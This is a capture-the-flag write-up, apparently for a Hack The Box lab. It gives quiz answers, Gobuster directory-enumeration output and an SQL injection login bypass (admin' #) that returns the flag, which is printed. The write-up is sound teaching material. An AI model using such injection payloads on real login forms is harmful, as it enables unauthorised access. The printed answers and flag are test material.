 # Table of Contents

- [Research](#research)
- [Reproduce](#reproduce)
- [Flag](#flag)

# Research

TASK 1

What does the acronym SQL stand for?

structured query language

TASK 2

What is one of the most common type of SQL vulnerabilities?

sql injection


TASK 3

What does PII stand for?

Personally Identifiable Information

TASK 4

What does the OWASP Top 10 list name the classification for this vulnerability?

A03:2021-Injection

TASK 5

What service and version are running on port 80 of the target?

Apache httpd 2.4.38 ((Debian))



TASK 6

What is the standard port used for the HTTPS protocol?

443

TASK 7

What is one luck-based method of exploiting login pages?

brute-forcing

TASK 8

What is a folder called in web-application terminology?

directory

TASK 9

What response code is given for "Not Found" errors?

404 (Not Found)

TASK 10

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

dir

TASK 11

What symbol do we use to comment out parts of the code?

Hash / pound-sign

# Research

    ┌──(kali㉿kali)-[~/HTB-CTF]
    └─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.129.18.200
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.18.200
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2022/05/24 10:02:59 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /css                  (Status: 301) [Size: 312] [--> http://10.129.18.200/css/]
    /fonts                (Status: 301) [Size: 314] [--> http://10.129.18.200/fonts/]
    /images               (Status: 301) [Size: 315] [--> http://10.129.18.200/images/]
    /index.php            (Status: 200) [Size: 4896]                                  
    /js                   (Status: 301) [Size: 311] [--> http://10.129.18.200/js/]    
    /server-status        (Status: 403) [Size: 278]                                   
    /vendor               (Status: 301) [Size: 315] [--> http://10.129.18.200/vendor/]

    ===============================================================
    2022/05/24 10:03:06 Finished
    ===============================================================
      
Apache 2.4.38 Vulnerability CVE-2019-10097

# Reproduce

Using admin '-- in the login fields does show the login form to be vulnerable to SQL injection.

The following will return the flag

    admin' #

# Flag

e3d0796d002a446c0e622226f42e9672
